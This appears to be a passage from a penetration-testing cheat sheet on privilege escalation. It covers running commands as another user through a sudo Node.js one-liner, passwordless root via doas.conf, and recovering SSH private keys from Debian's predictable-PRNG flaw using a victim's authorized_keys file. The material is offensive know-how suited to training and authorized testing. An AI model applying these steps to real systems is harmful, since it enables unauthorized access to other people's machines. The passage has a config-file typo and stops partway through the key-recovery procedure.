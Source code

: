 ```java
sudo -u victim node -e "var exec = require('child_process').exec;
exec('$COMMAND', function (error, stdOut, stdErr) {
console.log(stdOut);
});"
```

## doas (OpenBSD)

There are some alternatives to `sudo` such as `doas` for OpenBSD. You can check its configuration in `/etc/doas.conf`.  This configuration has a different syntax than `/etc/sudoers`.&#x20;

```bash
#this is the same as the /etc/sudoers example with NOPASSWD
permit nopass zweilos as root cmd vim
```

## SSH

### SSH Predictable PRNG (Authorized\_Keys) Key Recovery Process

This module describes how to attempt to use an obtained `authorized_keys` file on a host system to login to a remote host by using a SSH-DSS string.

**Steps**

1. Get the `authorized_keys` file from the victim's system.  An example of this file would look like:

```
ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ...
```

&#x20; 2\. Since this is an `ssh-dss` key, we need to add that to our local copy of `/etc/ssh/ssh_config` and `/etc/ssh/sshd_config`:

```
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshs_config
/etc/init.d/ssh restart
```

&#x20; 3\. Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

```
git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh
tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```

&#x20; 4\. Grab the first 20 or 30 bytes from the key file shown above starting with `"AAAA..."` and search the unpacked keys with `grep`:

```
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'
dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub
```
